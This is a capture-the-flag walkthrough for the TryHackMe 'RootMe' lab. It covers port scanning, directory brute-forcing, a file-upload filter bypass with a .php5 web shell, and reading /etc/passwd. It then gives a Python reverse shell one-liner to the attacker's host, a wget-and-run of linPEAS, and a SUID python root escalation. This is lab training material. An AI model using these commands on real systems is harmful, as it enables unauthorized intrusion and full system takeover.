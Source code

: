 ## RootMe CTF - [Room](https://tryhackme.com/room/rrootme)

First lets grab the ip:
  - 10.10.220.202

### $ Recon
After we get the ip, lets run a portscan, i will use nmap:

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Ok, we now that are running 2 ports, SSH and Http apache 2.2.29 Server

Ok. Now lets use gobuster

`gobuster -w /path/to/wordlist -u 10.10.220.202 `

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.220.202/
[+] Threads      : 10
[+] Wordlist     : /path/to/wordlist/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/02/01 17:48:10 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/js (Status: 301)
/xxxxxx (Status: 301)
/server-status (Status: 403)
/xxxxxxx (Status: 301)
=====================================================
2023/02/01 17:50:41 Finished
=====================================================
```

We will find this two important directories (I censured for you folks do it by yourselfs)

so, lets enter on the first directory that we found.
As we can see its a upload panel. Lets try upload our PHP script


### $ SHELL TIME


**FOR THE PEOPLE WHO NEEDS:**

![Screenshot1](.)

So lets upload our shell.
And as we can see, the upload panel blocks php files. so what we do?

(SIMPLE WAY) We simply change the file extension to .php5 (or other php ext.) and upload:

![Screenshot2](.)

Next we go to http://10.10.220.202/xxxxxx/filename.php5

After that we can type any command that we what, lets try `cat /etc/passwd` as test
And the output gives:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
rootme:x:1000:1000:RootMe:/home/rootme:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
test:x:1001:1001:,,,:/home/test:/bin/bash
```

So, Nice. Lets execute a reverse shell in that i will use: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("thmip",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

I setup a lister with nc: `nc -lvnp 9001`

and started both.
Now we have a shell as you can see

Searching on files we will found user.txt

### # PRIVESC

Now, lets search for privilege escalation. I will use the script LinPEAS to search for.

I use python3 -m http.server 8000 in my host machine
and in the reverse shell that we get i did (YOU NEED TO DOWNLOAD LINPEAS SCRIPT)

`cd /tmp && wget http://yourthmip:8000/linPEAS.sh && chmod +x linPEAS.sh && ./linPEAS.sh`

After linPEAS stop, we see what we can get anddd....

```
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
```
Python have SUID perms, so lets use that as privesc:

`/usr/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

Running that, we get a EUID and a EGID bash (EUID and EGID is Effective user id, and effective group id)

so now, as "root" we just do:
`cat /root/root.txt`

and we get the root flag.

Easy ctf, i hope i helped you guys.
